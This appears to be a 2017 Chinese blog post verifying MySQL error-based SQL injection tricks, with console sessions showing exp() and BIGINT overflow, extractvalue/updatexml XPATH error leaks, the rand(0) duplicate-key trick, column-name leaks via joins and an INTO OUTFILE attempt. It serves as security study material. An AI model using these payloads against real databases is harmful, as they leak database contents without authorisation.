 ```yaml
---
title: "Mysql一些有趣的用法"
date: 2017-03-06 15:06:23 +0800

categories: 转载验证
tags: [mysql, sql注入, 网络安全, 转载]
---
```


1. 查看BIGIN最大值以及数据溢出

    ```bash
    mysql> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.00 sec)

    mysql> select ~0+1;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
    mysql>
    ```
    > 在mysql **5.5** 之前，整形溢出是不会报错的

1. 查看用户,以及查询返回值逻辑运算

    ```bash
    mysql> select user();
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select * from (select user()) x;
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select (select * from (select user()) x);
    +-----------------------------------+
    | (select * from (select user()) x) |
    +-----------------------------------+
    | root@localhost                    |
    +-----------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x);
    +------------------------------------+
    | !(select * from (select user()) x) |
    +------------------------------------+
    |                                  1 |
    +------------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x) + 1;
    +----------------------------------------+
    | !(select * from (select user()) x) + 1 |
    +----------------------------------------+
    |                                      2 |
    +----------------------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```

1. 使用 [exp](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) 精度溢出

    ```bash
    mysql> select exp(709);
    +-----------------------+
    | exp(709)              |
    +-----------------------+
    | 8.218407461554972e307 |
    +-----------------------+
    1 row in set (0.00 sec)

    mysql> select exp(710);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
    mysql>
    ```

    > MySQL [EXP()](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) returns the value of the base of natural logarithm number e, raised to the power of a number specified as argument.

1. SQL注入:

    ```bash
    mysql> select exp(~(select * from (select user()) x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `x`.`user()` from (select user() AS `user()`) `x`)))'
    ```
    等同于
    ```bash
    mysql> select exp(~1);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(1))'
    ```

    ```bash
    mysql> select (select (!x-~0) from (select (select user()) x) a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
    ```
    > 在mysql **5.5.47** 可以在报错中返回查询结果,而在mysql **>5.5.53** 时，则不能返回查询结果

1. 查看mysql 版本

    ```bash
    mysql> select @@version;
    +-------------------------+
    | @@version               |
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql> select NAME_CONST(version(),1);
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    |                       1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
1. xpath语法错误,暴露查询信息

    ```bash
    mysql> select extractvalue(1, (select @@version));
    ERROR 1105 (HY000): XPATH syntax error: '.17-0ubuntu0.16.10.1'
    mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql>
    ```
    > MySQL [CONCAT()](http://www.w3resource.com/mysql/string-functions/mysql-concat-function.php)  function is used to add two or more strings.

1. 随机数漏洞
    ```bash
    mysql> select rand(0);
    +---------------------+
    | rand(0)             |
    +---------------------+
    | 0.15522042769493574 |
    +---------------------+
    1 row in set (0.00 sec)

    mysql> select floor(rand(0)*2);
    +------------------+
    | floor(rand(0)*2) |
    +------------------+
    |                0 |
    +------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
    > rand(0)是个稳定的序列, floor(rand(0)\*2)则会固定得到011011...的序列

1. 表重复+JOIN 爆列名

    ```bash
    mysql> select * from (select * from information_schema.tables a join information_schema.tables b) c;
    ERROR 1060 (42S21): Duplicate column name 'TABLE_CATALOG'
    mysql>
    ```

> 本文为验证. 原文为: [\[Web安全\]MYSQL报错注入的一点总结](https://xianzhi.aliyun.com/forum/read/762.html)

---
使用exp创建文件,但是(高版本mysql)必须进行安全配置 [^1]

```bash
mysql> select exp(~(select * from(select 'hello') x)) into outfile '/tmp/exp.txt';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
mysql>
```
---
## 参考文档
- [How to create/write a file using exp() in mySQL](http://stackoverflow.com/questions/37184480/how-to-create-write-a-file-using-exp-in-mysql)

[^1]: http://stackoverflow.com/questions/37184480/how-to-create-write-a-file-using-exp-in-mysql
